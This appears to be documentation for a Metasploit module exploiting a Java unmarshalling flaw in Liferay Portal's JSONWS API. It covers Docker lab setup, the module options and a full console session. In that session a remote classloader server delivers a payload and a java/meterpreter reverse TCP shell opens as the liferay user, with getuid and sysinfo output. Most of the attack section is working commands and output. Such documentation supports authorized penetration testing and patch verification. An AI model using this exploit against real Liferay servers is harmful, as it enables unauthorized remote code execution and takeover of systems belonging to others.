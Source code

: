 ## Vulnerable Application

### Description

This module exploits a Java unmarshalling vulnerability via JSONWS in
Liferay Portal versions < 6.2.5 GA6, 7.0.6 GA7, 7.1.3 GA4, and 7.2.1 GA2
to execute code as the Liferay user. Tested against 7.2.0 GA1.

### Setup

Install Docker using the [official instructions](https://docs.docker.com/get-docker/).
Follow the instructions for your platform and distribution (if using
Linux). If you're using OS X, you may prefer to `brew cask install docker`
after installing [Homebrew](https://brew.sh/).

**Note:** You may want to increase Docker's memory capacity up to 4 GB.
Liferay will crash at 2 GB or less. 4 GB seems to be the sweet spot.

Run `docker run -it -p 8080:8080 liferay/portal:7.2.0-ga1` (note the
added `7.2.0-ga1` tag) as per Liferay's [Docker Hub instructions](https://hub.docker.com/r/liferay/portal).
Any dependencies will be pulled automatically.

### Targets

```
Id  Name
--  ----
0   Liferay Portal < 6.2.5 GA6, 7.0.6 GA7, 7.1.3 GA4, 7.2.1 GA2
```

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Options

### SRVPORT

If you are testing the [Docker container](#setup), which binds to port
8080 by default, set this to a different port to avoid a port conflict
with the remote classloading server.

## Scenarios

### Liferay Portal 7.2.0 GA1 from [Docker Hub](https://hub.docker.com/r/liferay/portal)

```
msf5 > use exploit/multi/http/liferay_java_unmarshalling
msf5 exploit(multi/http/liferay_java_unmarshalling) > options

Module options (exploit/multi/http/liferay_java_unmarshalling):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      8080             yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path
   VHOST                       no        HTTP server virtual host


Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Liferay Portal < 6.2.5 GA6, 7.0.6 GA7, 7.1.3 GA4, 7.2.1 GA2


msf5 exploit(multi/http/liferay_java_unmarshalling) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf5 exploit(multi/http/liferay_java_unmarshalling) > set lhost 192.168.1.3
lhost => 192.168.1.3
msf5 exploit(multi/http/liferay_java_unmarshalling) > set srvport 8888
srvport => 8888
msf5 exploit(multi/http/liferay_java_unmarshalling) > run

[*] Started reverse TCP handler on 192.168.1.3:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. Liferay 7.2.0 CE GA1 MAY be a vulnerable version. Please verify.
[*] Using URL: http://0.0.0.0:8888/
[*] Local IP: http://192.168.1.3:8888/
[+] Started remote classloader server at http://192.168.1.3:8888/
[*] Unmarshalling remote classloader at http://127.0.0.1:8080/api/jsonws/expandocolumn/update-column
[*] GET /Uphxohekruuokpedknflsriuafhrdsfk.class requested
[+] Sending constructor class
[*] GET /metasploit/Payload.class requested
[+] Sending payload class
[*] HEAD /metasploit.dat requested
[+] Sending 200
[*] GET /metasploit.dat requested
[+] Sending payload config
[*] HEAD /metasploit/Payload.class requested
[+] Sending 200
[*] GET /metasploit/Payload.class requested
[+] Sending payload class
[*] Sending stage (53928 bytes) to 192.168.1.3
[*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.3:58271) at 2020-04-08 07:05:47 -0500
[*] Server stopped.

meterpreter > getuid
Server username: liferay
meterpreter > sysinfo
Computer    : 588a96d744cb
OS          : Linux 4.19.76-linuxkit (amd64)
Meterpreter : java/linux
meterpreter >
```
